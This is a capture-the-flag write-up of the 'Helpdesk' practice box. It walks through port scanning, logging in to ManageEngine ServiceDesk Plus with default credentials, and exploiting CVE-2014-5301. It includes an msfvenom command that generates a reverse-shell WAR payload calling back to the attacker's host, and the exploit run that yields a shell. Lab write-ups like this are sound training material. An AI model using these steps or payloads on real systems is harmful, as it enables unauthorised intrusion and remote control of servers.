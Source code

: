 ### Helpdesk Proving Grounds Practice

### Difficulty =  Easy

### IP Address = 192.168.95.43

Nmap Scan:

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Helpdesk]
└─$ nmap -sCV -A 192.168.95.43 -p139,445,3389,8080 -oN nmapscan -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-25 14:48 WAT
Nmap scan report for 192.168.95.43
Host is up (0.21s latency).

PORT     STATE SERVICE       VERSION
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-title: ManageEngine ServiceDesk Plus
|_http-server-header: Apache-Coyote/1.1
Service Info: Host: HELPDESK; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
| smb2-security-mode: 
|   2.0.2: 
|_    Message signing enabled but not required
|_clock-skew: mean: 2h40m00s, deviation: 4h37m08s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: HELPDESK
|   NetBIOS computer name: HELPDESK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-25T05:48:48-08:00
| smb2-time: 
|   date: 2023-01-25T13:48:48
|_  start_date: 2023-01-25T13:45:34
|_nbstat: NetBIOS name: HELPDESK, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:1b:23 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.04 seconds

```

Now lets enumerate smb

```
                                                                                                                                                                                                                  
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Helpdesk]
└─$ smbclient -L 192.168.95.43
Password for [WORKGROUP\mark]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.95.43 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We can't list shares anonymously 

So lets move on to the web server on port 8080

On navigating there shows a framework called `ManageEngine ServiceDesk Plus`

And it also shows a login page 
![image](https://user-images.githubusercontent.com/113513376/214581018-725a3143-86b5-4558-8f03-e2f8d067375a.png)

Below the web page shows the version of the framwork which is `ManageEngine ServiceDesk Plus 7.6.0`

Now i'll search for default credential if i can login with it

After searching it leads here [Credential](https://help.servicedeskplus.com/introduction/start-servicedeskplus-server.html)

The default credential is `administrator:administrator`

Now lets try login in with it 

Ah sweet it works
![image](https://user-images.githubusercontent.com/113513376/214582832-691ab26b-a7ef-44d5-89b5-507d2bc7f387.png)

So now i'll search for a way to get remote code execution

Ok i found one that looks cool to try [Exploit](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py)

Lets see what it requires

```
# Script usage: ./CVE-2014-5301.py HOST PORT USERNAME PASSWORD WARFILE
1. HOST: target host
2. PORT: target port
3. USERNAME: a valid username for ManageEngine ServiceDesk Plus
4. PASSWORD: the password for the user
5. WARFILE: a war file containing the mallicious payload
```

Ok now i'll generate the war payload to be used using msfvenom

```
msf6 > msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.7 LPORT=1337 -f war -o shell.war
[*] exec: msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.7 LPORT=1337 -f war -o shell.war

Payload size: 13316 bytes
Final size of war file: 13316 bytes
Saved as: shell.war
msf6 >
```

Now i'll set up netcat to catch the reverse shell

Ok now lets run the exploit code

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Helpdesk]
└─$ python3 exploit.py 192.168.95.43 8080 administrator administrator shell.war 
Trying http://192.168.95.43:8080/VwanfQb2A2o4h7YlCTvOx7esmsYFS4hg/lhivbcumw/qdn4tdFwyzSMzDcn
Trying http://192.168.95.43:8080/VwanfQb2A2o4h7YlCTvOx7esmsYFS4hg/lhivbcumw/9oxpnx9huReQkUY8
```

And back on the listner we get a shell 

![image](https://user-images.githubusercontent.com/87468669/209433565-30966d1d-a150-4859-872b-4f06aee74908.png)
![image](https://user-images.githubusercontent.com/87468669/209433654-5c03ac27-0a2c-4ba6-a05c-de2ecd21f8c4.png)


And we're done 

<br> <br>
[Back To Home](../../index.md)
<br>

